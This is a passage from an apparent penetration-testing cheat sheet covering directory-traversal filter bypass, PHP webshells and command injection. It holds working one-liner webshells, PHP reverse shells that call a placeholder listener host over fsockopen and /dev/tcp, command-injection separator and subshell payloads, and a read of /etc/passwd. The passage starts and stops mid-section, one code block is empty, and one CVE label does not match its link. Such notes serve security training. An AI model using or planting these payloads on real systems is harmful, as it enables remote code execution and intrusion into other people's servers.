 ```sh
# directive to hopefully bypass server-side filters on it. Or even double-URL-
# encode the string.
# Also try bypassing filters with ....// instead of ../
```

#### 4.5.5.2. One-liner PHP Webshells

Simple one-liner web shells for when you can drop/modify a php file:

```php
<?php system($_GET['cmd']); ?>

<?php echo exec($_POST['cmd']); ?>

<?php echo shell_exec($_REQUEST['cmd']); ?>

<?php echo passthru($_GET['cmd']); ?>
```

Kali has more webshells here: `/usr/share/webshells/php/`, and I have some in the [tools](tools) directory

[One-liner PHP reverse shell](#54-reverse-shells):

```php
<?php $sock=fsockopen("LISTEN_IP",443);exec("/bin/bash -i <&3 >&3 2>&3"); ?>

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/LISTEN_IP/443 0>&1'"); ?>
```

[Great collection of PHP webshells and reverse shells](https://github.com/ivan-sincek/php-reverse-shell)

[Pentestmonkey PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



### 4.5.6. Command Injection

Some websites pass user input to a shell execution environment (probably with some filtering).
If you can bypass the filter, you get code execution!

Tips:
- `whoami` runs on both Windows and Linux hosts. Good candidate for test injection.
- prefix command with separator characters: `; | & || &&`
- try url-encoded separators:
  - `%0A`: newline
  - `%3B`: semicolon
- May need to terminate quoted context before starting your command:
  ```sh
  '; whoami
  "&& whoami
  "& whoami"  # surrounding with quotes
  ```
- surrounding your command with UNIX subshells for execution:
  ```sh
  $(whoami)
  >(whoami)
  `whoami`
  ```
- To see if you're executing in CMD or Powershell (will print which one):
  ```powershell
  (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
  ```
- try seeing if you can get a help msg:  `-h`, `--help`, `/?`
- maybe redirection provides useful info `< /etc/passwd`
- perl injection when opening file:  `echo Injected|`
- if you can't see output of command, try time-based character-by-character extraction:
  ```sh
  ```

[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744